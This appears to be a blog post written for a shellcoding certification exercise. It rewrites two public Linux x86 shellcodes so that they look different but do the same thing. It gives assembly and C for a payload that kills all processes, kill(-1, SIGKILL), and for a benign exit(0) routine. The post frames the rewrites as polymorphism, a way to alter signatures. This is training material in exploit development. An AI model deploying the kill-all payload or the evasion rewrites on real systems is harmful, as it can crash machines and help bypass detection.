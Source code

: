 ```yaml
---
layout: post
title: " Linux/x86 - Code Polymorphism examples "
date: 2017-05-04 12:00:00
share: true
comments: true
tags: shellcoding exploitation slae
---
```


_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)._
_**Student ID:** SLAE-885_
_**Assignment number:** 6.2 and 6.3_
_**Github repo:** <https://github.com/abatchy17/SLAE>_  

---

_In assignment 6, the requirement is polymorphing 3+ shellcodes off shellstorm.org or exploit-db.com_, which basically means modifying the code so it doesn't look like the original yet has the same functionality. This post contains the remaining 2 parts for assignment 3._
  

## Linux/x86 - kill all processes

The following shellcode is written by Kris Katterjohn and can be found [here](http://shell-storm.org/shellcode/files/shellcode-212.php).  

```nasm
section .text  
  
global _start  
  
_start:  
  
    ; kill(-1, SIGKILL)  
  
    push byte 37  
    pop eax  
    push byte -1  
    pop ebx  
    push byte 9  
    pop ecx  
    int 0x80  
```

Very simple code, it sets `EAX` to 37 (syscall for `kill()`), sets `EBX` to -1 (to target all processes) and `ECX` to 9 (`SIGKILL`).  
  
Let's modify this code slightly:  

```nasm
section .text  
  
global _start  
  
_start:  
  
    ; kill(-1, SIGKILL)  
  
    xor ebx, ebx  
    dec ebx  
    push byte 37  
    pop eax  
    push byte 9  
    pop ecx  
    int 0x80  
```

See what I did there? Shellcode is of same size so we're good.  
  

## Linux/x86 - exit(0)

The following shellcode is written by gunslinger_ and can be found [here](http://shell-storm.org/shellcode/files/shellcode-623.php).  

```cpp
/*  
Name   : 8 bytes sys_exit(0) x86 linux shellcode  
Date   : may, 31 2010  
Author : gunslinger_  
Web    : devilzc0de.com  
blog   : gunslinger.devilzc0de.com  
tested on : linux debian  
*/  
  
char *bye=  
 "\x31\xc0"                    /* xor    %eax,%eax */  
 "\xb0\x01"                    /* mov    $0x1,%al */  
 "\x31\xdb"                    /* xor    %ebx,%ebx */  
 "\xcd\x80";                   /* int    $0x80 */  
  
int main(void)  
{  
  ((void (*)(void)) bye)();  
  return 0;  
}  
```    

  
What can we do about this code? Well, `mov al, 0x1` can be replaced with `inc eax`.  

```nasm
global _start  
_start:  
  
xor eax, eax  
inc eax  
xor ebx, ebx  
int 0x80  
```

Shellcode is now one byte smaller, sweet.  
  
\- Abatchy
